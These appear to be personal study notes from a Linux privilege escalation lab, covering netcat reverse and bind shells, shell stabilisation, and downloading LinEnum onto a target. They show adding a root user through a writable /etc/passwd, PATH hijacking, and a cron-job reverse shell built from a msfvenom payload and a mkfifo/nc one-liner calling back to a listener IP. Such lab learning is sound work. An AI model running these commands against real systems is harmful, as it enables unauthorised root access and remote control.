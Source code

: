 
- Netcat Listeners are used to obtain `reverse shells` on the attacker's PC and also `bind shells` on the target PC
	Reverse shells - `sudo nc -lvnp [port]`
	 Bind shells - `nc [target IP] [port]`

###### _Netcat Shell Stabilisation_

- these shells are very unstable by default, are non-interactive and can be killed by doing ctrl+C, this is because they are running as a process in the terminal and not a bonafide terminal in their own rights

Technique 1 - **Python** 
- after `sudo nc -lvnp port` and connection establishment but no shell, first thing is to do `python -c 'import pty;pty.spawn("/bin/bash")'` (sometimes may have to use python3, python2 accordingly), this will give a prettier shell 
- then do `export TERM=xterm` - this gives us access to commands like `clear` 
- now background the shell with `ctrl+Z` and then in our own normal terminal run `stty raw echo;fg` 

Technique 2 - **rlwrap**
- do `sudo apt install rlwrap` and while invoking we must do `rlwrap nc -lvnp [port]` - this gives us access to history, tab autocompletion, arrow keys etc

Technique 3 - **socat** (usually for linux)
- For this first we need to transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the target machine, this can be done by using a webserver on the attacking machine in the same directory containing the socat binary.
- do `sudo python3 -m http.server 80`, then on a new terminal do `wget <LOCAL-IP>/socat -O /tmp/socat` 
- command to setup a socat listener usual syntax
> `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - in linux shells
- but normally while setting up socat listener do the following :
> `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` - one one terminal while another terminal is listening with
> `socat TCP-L:<port> -` ---> now run commands on this terminal & we get output
---

### _Privilege Escalation_

- we use `LinEnum.sh` which is a common bash script which is used to perform common commands related to privilege escalation, we can get a copy of this script from doing `git clone https://github.com/rebootuser/LinEnum.git`
- we can get `LinEnum` on to target machine by starting up a python server and doing wget from target machine
> `python3 -m http.server 80`
> `wget http://[attacking_IP]/LinEnum.sh` - run this on target machine 
- To answer the questions, first do ssh login with credentials `user3:password` and then do `cat /etc/passwd | grep user`, this gives us 8 existing users
- now to find number of shells on the system do `cat /etc/shells` and to see which script executes every 5 mins do `cat /etc/crontab`
- To find SUID/GUID binaries, we can either look for it manually or by running the LinEnum.sh script
> `find / -perm -u=s -type f 2>/dev/null` - to find those files manually

#### _Exploiting Writable /etc/passwd_

- after LinEnum scan we can see that user7 is a member of the root group with gid=0, so we do horizontal privesc and then vertical privesc from user7
- so do `su user7` and password=`password` and we have user7 access and can write `/etc/passwd` file 
- before we add our new user, we create a compliant password hash to add, so we do this by doing
> `openssl passwd -1 -salt new 123` - new for salt and 123 for password (as mentioned in task)
- overwrite /etc/passwd with a new entry with user `new` 
> add the following line :
> `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash` 
> `su new` and when prompted for password enter `123` 
- everytime we get a new user account access, do `sudo -l` to see what commands can be run as root and what cannot
- really useful resource to exploit misconfigured binaries - https://gtfobins.github.io/
---
###### _Additional Notes_
- crontab format
> `#  m   h dom mon dow user  command`
   `17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly` 

- if any user has a root access and can edit the crontab script which is automated to execute in a custom manner, we can overwrite the contents of the script with a reverse shell payload and get root access
> `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.94.67 lport=1234`
> `mkfifo /tmp/qvqf; nc 10.17.94.67 1234 0</tmp/qvqf | /bin/sh >/tmp/qvqf 2>&1; rm /tmp/qvqf`
> now do `echo "[payload generated]" > script.sh`
> and now open a netcat listener on normal terminal `nc -lvnp 1234` and after custom time of cronjob we get the reverse shell with root access.

- Exploiting the PATH variable - go to `/home/user5` and run the `script` and by doing so it just lists out the directories so now we change the PATH variable and add this
> `cd /tmp && echo "/bin/bash" > ls` 
> now do `export PATH=/tmp:$PATH`
> now on doing $PATH we see /tmp in the first and whenever we do `ls` it tries to run the bash executable, so now go back to /home/user5 and do `./script` and we get root shell access
---

###### _Resources for learning more on Privilege Escalation_

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

[from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) 

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation